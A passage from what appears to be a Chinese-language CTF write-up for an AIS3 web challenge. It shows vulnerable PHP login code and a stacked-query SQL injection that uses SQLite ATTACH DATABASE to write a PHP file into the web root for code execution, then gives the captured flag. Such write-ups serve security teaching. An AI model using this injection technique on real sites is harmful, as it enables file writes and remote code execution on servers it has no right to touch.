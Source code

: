 但是實際上他會吃 Stacked Query。

首先利用 `index.php` 的登入表單將 Payload 寫到  `$_SESSION['username']`，這邊的 Stacked Query 會直接被 PHP 忽略掉，所以我們還是能用其中一組帳號密碼登入：

```php
    $username = $_POST['username'];
    $password = $_POST['password'];
    if (empty($username) || empty($password)) {
        echo "Please enter both username and password.";
    } else {
        $stmt = $db->prepare("SELECT * FROM Users WHERE username = '$username'");
        $result = $stmt->execute();
        $user = $result->fetchArray();
        if ($user) {
            if (password_verify($password, $user['password'])) {
             // 注意這裡寫入 Session 的是我們的輸入而不是資料庫的值
                $_SESSION['username'] = $username;
                header('Location: 2fa.php');
                die();
```

接下來到 `2fa.php` 隨便打一個數字觸發 `exec()`。

```php
$code = $_POST['code'];
$username = $_SESSION['username'];
$result = $db->exec("SELECT * FROM users WHERE username = '$username'");
```

利用 SQLite 一個檔案即是一個資料庫的特性，我們只要有辦法取得 Stack Query 就能 `ATTACH DATABASE` 寫入檔案，這裡只要能寫入 `<?php` 就足夠 RCE，並不需要理會 SQLite 多寫的資料。

利用以下帳號與正確的密碼登入並觸發 `exec()`（為了 Syntax Highlighting 最前面多加了一個 `'` 實際上要拿掉）：

```SQL
'guest'; ATTACH DATABASE '/var/www/html/9d4bd0240407b24b8e5.php' AS rce; CREATE TABLE rce.payload (data TEXT); INSERT INTO rce.payload (data) VALUES ('<?php echo "FLAG2: " . htmlspecialchars(getenv("FLAG2")); ?>'); --
```

![login-screen-flag-2](login-screen-flag-2.webp)

Flag: `AIS3{2.Nyan_Nyan_File_upload_jWvuUeUyyKU}`

### LickLeak

Solves: 3/389\
Author: Whale120\
First Blood 🩸
